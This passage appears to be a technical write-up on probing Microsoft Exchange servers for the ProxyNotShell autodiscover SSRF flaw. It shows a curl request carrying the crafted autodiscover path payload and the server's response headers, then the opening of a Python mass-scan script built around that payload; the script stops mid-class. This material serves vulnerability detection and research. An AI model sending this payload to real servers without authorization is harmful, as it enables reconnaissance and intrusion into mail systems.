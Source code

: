 ```bash
*   Trying 1.2.3.4:443...
* Connected to 1.2.3.4 (1.2.3.4) port 443 (#0)
> GET /autodiscover/autodiscover.json?a@foo.var/owa/&Email=autodiscover/autodiscover.json?a@foo.var&Protocol=XYZ&FooProtocol=Powershell HTTP/1.1
> Host: 1.2.3.4
> Accept: */*
> User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0
>
* Mark bundle as not supporting multiuse
< HTTP/1.1 400
< Cache-Control: private
< Content-Length: 569
< Content-Type: application/json; charset=utf-8
< Server: Microsoft-IIS/10.0
< request-id: 919734b9-f865-5488-5b4e-bfad6f82ae72
< Alt-Svc: h3=":443",h3-29=":443"
< X-CalculatedFETarget: BYAPR06CU002.internal.outlook.com
< X-BackEndHttpStatus: 400
< X-CalculatedBETarget: PH7PR13MB4482.namprd42.PROD.OUTLOOK.COM
< X-BackEndHttpStatus: 400
< X-RUM-Validated: 1
< jsonerror: true
< X-AspNet-Version: 4.0.30319
< X-DiagInfo: PH7PR13MB4482
< X-BEServer: PH7PR13MB4482
< X-Proxy-RoutingCorrectness: 1
< X-Proxy-BackendServerStatus: 400
< X-FEProxyInfo: BL1PR13CA0291.namprd42.PROD.OUTLOOK.COM
< X-FEEFZInfo: MNZ
< X-FEServer: BYAPR06CA0042
< X-FirstHopCafeEFZ: MNZ
< X-Powered-By: ASP.NET
< X-FEServer: BL1PR13CA0291
< Date: Sat, 22 Oct 2022 21:38:40 GMT
<
* Connection #0 to host 1.2.3.4 left intact
{"ErrorCode":"ProtocolNotSupported","ErrorMessage":"The given protocol value \u0027XYZ\u0027 is not supported. Supported values are \u0027Rest,ActiveSync,Ews,Substrate,SubstrateSearchService,AutodiscoverV1,SubstrateNotificationService,OutlookMeetingScheduler,OutlookPay,Actions,Connectors,ConnectorsProcessors,ConnectorsWebhook,NotesClient,OwaPoweredExperience,ToDo,Weve,OutlookLocationsService,OutlookCloudSettingsService,OutlookTailoredExperiences,OwaPoweredExperienceV2,Speedway,SpeechAndLanguagePersonalization,SubstrateSignalService,CompliancePolicyService\u0027"}
```

Awesome - it works. With a test server in the backhand the possible status could be verified and the payload adjusted. In the result above `X-FEServer` is from special interest. With the learned things in mind we can now craft a something in python ready for perform a mass scan.

```python
import argparse, sys, requests
from urllib3 import disable_warnings
from concurrent.futures import ThreadPoolExecutor

PAYLOAD = "/autodiscover/autodiscover.json?a@foo.var/" \
          "owa/&Email=autodiscover/autodiscover.json?a@foo.var&Protocol=XYZ&FooProtocol=Powershell"

headers = {
    'User-Agent': 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:105.0) Gecko/20100101 Firefox/105.0'
}


class ProxyNotShellParser(argparse.ArgumentParser):
    def error(self, message):
```